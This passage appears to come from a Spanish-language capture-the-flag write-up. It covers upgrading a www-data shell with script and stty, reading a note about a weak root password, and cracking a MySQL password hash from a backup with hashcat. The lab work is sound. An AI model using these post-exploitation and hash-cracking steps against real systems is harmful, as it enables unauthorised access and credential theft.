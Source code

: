 Una vez hecho esto ya tendremos una shell con el usuario `www-data`, por lo que la tendremos que sanitizar...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos a la `/home` del usuario `user` leeremos la siguiente nota llamada `MessageToRoot.txt`...

```
Hi root,

Your password for this machine is weak and within the first 300 words of the rockyou.txt wordlist. Fortunately root is not accessible via ssh. Please update the password to a more secure one.

Regards,
user
```

Investigando en el `backup` que encontramos antes de `mysql` encontre esto...

```
CREATE USER \'jeffrey\'@\'localhost\'\nIDENTIFIED BY PASSWORD \'*90E462C37378CED12064BB3388827D2BA3A9B689\';
```

```shell
hashcat -m300 -a0 <HASH_FILE> <WORDLIST>
```

Info:

```
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-12th Gen Intel(R) Core(TM) i7-12700H, 1418/2901 MB (512 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
```